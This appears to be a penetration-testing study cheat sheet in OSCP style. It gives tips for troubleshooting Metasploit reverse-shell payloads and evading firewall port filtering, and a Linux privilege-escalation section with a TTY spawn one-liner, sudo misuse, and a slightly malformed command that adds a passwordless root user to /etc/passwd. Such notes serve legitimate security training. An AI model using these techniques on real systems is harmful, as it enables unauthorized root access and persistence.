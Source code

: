 __##################### WARNING: METERPRETER PAYLOADS ARE RESTRICTED ####################__  

Payload not working?
* Try another one.
* `/meterpreter/reverse_tcp`
* `/shell/reverse_tcp`
* `/vncinject/reverse_tcp`

Payload size is restricted?
* Look for a payload that has a smaller size than standard e.g. `reverse_nonx_tcp`.
* Run the script `/usr/share/metasploit-framework/tools/modules/payload_lengths.rb` to check the size of all payloads.

If reverse shell hangs / dies:
* Try a different port. E.g. 4444 doesn't work, try 443, 80 or 8080 (see your Nmap results) because a firewall may be disallowing all ports except certain ones.
* Try a bind shell instead of reverse shell.
* Try generate a different payload with `msfvenom -p` or find another payload online.

WINDOWS SERVER:
* Directory to binaries may use `C:\WINNT\System32` rather than `C:\WINDOWS\System32`

# LINUX PRIVESC

Privilege escalation guides:
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ (manual)
* https://exploitedbunker.com/articles/pentest-cheatsheet/
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Automated Linux enumeration scripts:
* https://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check

TTY spawn cheatsheet: https://netsec.ws/?p=337
* `python -c 'import pty; pty.spawn("/bin/sh")'`

Quick Wins:
* Run Linux exploit suggester: https://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh
* Misconfigured /etc/sudoers:
```bash
# THIS HAS WORKED BEFORE: Due to misconfiguration in /etc/sudoers
$ sudo su	# execute su as root
$ su root	# become root
```

Sudo misconfiguration:
* https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/
* Look for root permissions on certain tools that allow writing.
```bash
# Example: adding user to /etc/passwd
$ sudo -l
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
$ /usr/bin/cat 'brian::0:0::/root:/bin/bash >> /etc/passwd
```
